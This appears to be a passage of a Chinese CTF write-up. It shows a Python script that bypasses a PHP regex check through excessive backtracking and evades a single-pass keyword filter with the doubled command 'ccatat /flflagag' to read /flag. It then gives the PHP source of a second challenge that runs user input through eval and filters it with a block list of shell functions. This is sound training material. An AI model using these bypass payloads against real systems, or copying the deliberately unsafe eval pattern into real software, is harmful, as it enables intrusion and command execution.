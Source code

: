 1. 构造`target`

    因为对`target`进行了正则匹配需要不包含`but`和`how`中间任意长度字符串，但是下一行检测到`but how`就会die掉而且是强匹配，无法通过绕过。

    所以尝试绕过`preg_match_all`，经过尝试只有回溯法可以绕过，编写脚本进行构造。

2. 构造`code`

    因为对`code`进行了`preg_replace`，所以需要构造`code`，但是`preg_replace`只能替换一次，所以通过重复写就好。

3. 编写脚本：

    ```php
    import requests
    from io import BytesIO
    
    url = "http://ctf.qwq.cc:14124/"
    
    datas = {
        "target": "but how" + 'a'* 1000000,
        "code": "ccatat /flflagag"
    }
    
    res = requests.post(url=url, data=datas, allow_redirects=False)
    
    print(res.text)
    ```

### Noramal_Bypass

> flag在 /flag

```php
<?php
show_source(__FILE__);
@session_start();
@error_reporting(0);
$list = @$_GET['identity'];
if (!@isset($list['target'])) {
    die('Stop!');
} else if ($list['target'] != @md5($_SESSION['username'])) {
    die('Stop right there!');
} else {
    if (isset($_GET['target'])) {
        $target = $_GET['target'];
        $target = addslashes($target);
        if( strlen($target)>32 ){
            die("Too long");
        }
        if (preg_match('/\{tac|pcntl_exec|fwrite|curl|system|eval|assert|flag|passthru|exec|system|popen|cat|ini_alter|ini_restore|openlog|syslog|readlink|symlink|popepassthru|chroot|chgrp|chown|shell_exec|proc_open|proc_get_status|stream_socket_server|scandir|assert([^}]+)\}/i', $target)) {
            die('No way!');
        }
        if (intval($target)) {
            eval('"' . $target . ('"./ecu.jpg"') . ')}}";');
        }
    } else {
        eval('$flag="' . $target . '";');
    }
}
```
